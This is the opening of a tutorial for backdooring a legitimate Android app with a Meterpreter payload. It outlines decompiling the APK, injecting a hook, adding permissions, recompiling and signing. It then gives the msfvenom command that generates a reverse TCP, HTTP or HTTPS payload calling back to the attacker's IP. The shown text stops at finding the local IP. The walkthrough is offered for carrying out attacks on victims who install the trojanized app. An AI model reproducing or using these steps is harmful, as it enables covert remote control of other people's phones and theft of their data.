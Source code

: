 
### Brief Overview

Since this tutorial is a little bit long, I’m giving a brief overview of what we are going to do here,
 	
1. Generate the Meterpreter payload.
2. Decompile the payload and the original apk.
3. Copy the payload files to the original apk.
4. Inject the hook into the appropriate activity of the original apk.
5. Inject the permissions in the `AndroidManifest.xml` file.
6. Recompile the original apk.
7. Sign the apk using Jarsigner.


That’s about it. I will also show you how can you get a working Meterpreter session using that backdoored apk, if you don’t know that already. So let’s get started.


### Step 1: Generate the Payload

First of all, we have to make the Meterpreter payload. We are going to use _MSFVenom_ for this. The command is —
```console
$ msfvenom -p android/meterpreter/payload_type LHOST=ip_address LPORT=incoming_port -o meterpreter.apk
```

Replace `payload_type` by any of the following payloads available. The function of all these payloads are same, essentially they are all Meterpreter payloads, the difference is only in the method they use to connect to your Kali system. The available `payload_type`s are

- _reverse_tcp_
- _reverse_http_
- _reverse_https_

You can use any one you like, I'm going to use `reverse_https` as an example.

Replace `ip_address` by the IP address to which the payload is going to connect back to, i.e. the IP address of the attacker's system. If you are going to perform this attack over a local network (eg. if the victim and attacker are connected to the same Wi-Fi hotspot), your Local IP will suffice. To know what your local IP is, run the command —
```console
$ ifconfig
```